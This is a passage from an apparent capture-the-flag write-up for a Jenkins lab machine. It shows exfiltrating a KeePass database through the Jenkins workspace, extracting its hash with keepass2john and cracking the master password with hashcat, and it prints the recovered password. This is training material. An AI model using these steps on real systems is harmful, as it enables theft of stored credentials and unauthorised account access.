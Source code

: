 That’s a [KeePass](https://keepass.info/) database, a local password manager.

### Exfil

On a Linux host, I could just use `nc` to send this back. On Windows, it’s a bit tricker. Still, there’s a webserver here, so I’ll copy the file into that directory:

```

PS C:\Users\Administrator\.jenkins\workspace\0xdf> copy \users\kohsuke\Documents\CEH.kdbx .
PS C:\Users\Administrator\.jenkins\workspace\0xdf> ls

    Directory: C:\Users\Administrator\.jenkins\workspace\0xdf

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx  

```

Now clicking on “Workspace” in the Jenkins GUI shows the file:

![image-20220412205920650](https://0xdfimages.gitlab.io/img/image-20220412205920650.png)

Once I download it, I’ll delete it from the directory:

```

PS C:\Users\Administrator\.jenkins\workspace\0xdf> del CEH.kdbx 

```

### Crack Master Password

With KeePass, to get things out of the database, I need the master password. I’ll use the `keepass2john` script to create a hash the represents the password:

```

oxdf@hacky$ keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
oxdf@hacky$ keepass2john CEH.kdbx > CEH.kdbx.hash

```

I’ll use `hashcat` to crack it. I’ll need the `--user` flag as the hash starts with `[username]:`. `hashcat` now can automatically detect the hash type (most of the time), and it works here:

```

$ /opt/hashcat-6.2.5/hashcat.bin CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES) | Password Manager
...[snip]...
$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48:moonshine1
...[snip]...

```